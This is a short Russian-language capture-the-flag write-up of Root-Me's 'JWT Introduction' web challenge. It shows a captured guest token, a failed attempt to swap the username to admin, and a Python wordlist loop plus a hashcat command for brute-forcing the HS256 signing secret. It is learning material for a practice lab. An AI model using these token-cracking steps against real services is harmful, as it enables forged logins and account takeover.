 <--https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction-->

1. Во-первых я вошел в форму логина, и залогинился как гость. В запросах к я увидел заголовок jwt с токеном: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.OnuZnYMdetcg7AWGV6WURn8CFSfas6AQej4V9M13nsk
2. ![изображение](https://github.com/MysterYXY01/B-gD-ck/assets/132662542/4ca5df63-ff7d-4e38-bd7a-e31a43e1718b)
3. Посмотрев сразу становиться поятным, что нужно поменять guest на admin. Однако в ответе поучаем Wrong signature
4. Сразу я не заметил, однако и на скрине видно, что подпись невалидная. Это не натолкнуло меня на мысль того, что подпись там вообще может и не быть и я решил перебором сломать
   её.
   Два варианта:
    ```
    import jwt
    #encoded = jwt.encode({'username': 'admin'}, '123456', algorithm='HS256')
    encoded = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.OnuZnYMdetcg7AWGV6WURn8CFSfas6AQej4V9M13nsk'
    with open('jwtwordlist', 'r') as file:
        for line in file:
            try:
                print(jwt.decode(encoded, line, algorithms=['HS256']))
            except:
                continue```

   Hashcat: ```hashcat -a 0 -m 16500 jwt.txt /usr/share/wordlists/wifite.txt```
  
